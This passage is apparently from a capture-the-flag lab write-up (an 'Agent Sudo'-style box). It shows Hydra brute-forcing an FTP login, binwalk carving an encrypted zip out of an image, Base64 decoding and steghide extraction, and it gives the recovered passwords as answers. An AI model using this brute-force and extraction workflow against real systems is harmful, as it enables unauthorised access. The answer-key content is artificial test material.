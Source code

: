 ```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://<MACHINE_IP>:21/
[STATUS] 168.00 tries/min, 168 tries in 00:01h, 14344260 to do in 1423:03h, 16 active
[21][ftp] host: <MACHINE_IP>   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 14 final worker threads did not complete until end.
[ERROR] 14 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-08 21:17:34
```
**Answer**: `crystal`
### ZIP file password
```bash
$ ftp <MACHINE_IP>
ftp> ls
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
ftp> mget *
mget To_agentJ.txt? y
mget cute-alien.jpg? y
mget cutie.png? y
```
* Extract files from `cutie.png`
  * I could not get `john` to work due to an OpenCL error.
```
$ binwalk -e cutie.png 
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

**Answer**: `alien`
### Steganography password
1. `To_agentR.txt`:
> Agent C,
>
> We need to send the picture to 'QXJlYTUx' as soon as possible!
>
> By,
> Agent R
2. Assuming `QXJlYTUx` is Base64:
```bash
$  echo "QXJlYTUx" | base64 -d
Area51
```
**Answer**: `Area51`
### Who is the other agent (in full name)?
1. `steghide extract -sf cute-alien.jpg` with passphrase `Area51` to extract to `message.txt`.
2. `message.txt`:
> Hi james,
>
> Glad you find this message. Your login password is hackerrules!
>
> Don't ask me why the password look cheesy, ask agent R who set this password for you.
>
> Your buddy,